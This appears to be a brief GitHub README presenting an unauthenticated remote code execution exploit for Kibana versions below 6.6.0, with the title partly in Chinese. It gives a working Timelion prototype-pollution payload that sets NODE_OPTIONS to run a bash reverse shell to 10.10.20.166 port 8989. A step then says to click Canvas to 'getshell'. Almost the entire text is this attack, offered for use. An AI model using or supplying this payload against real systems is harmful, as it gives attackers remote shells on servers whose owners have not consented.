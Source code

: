 # kibana-RCE <6.6.0 未授权远程代码命令执行 (Need Timelion And Canvas)

## 0x01 Timelion Run
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/10.10.20.166/8989 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
![](Timelion.jpg)

## 0x02 Click Canvas to getshell

![](./Canvas.jpg)

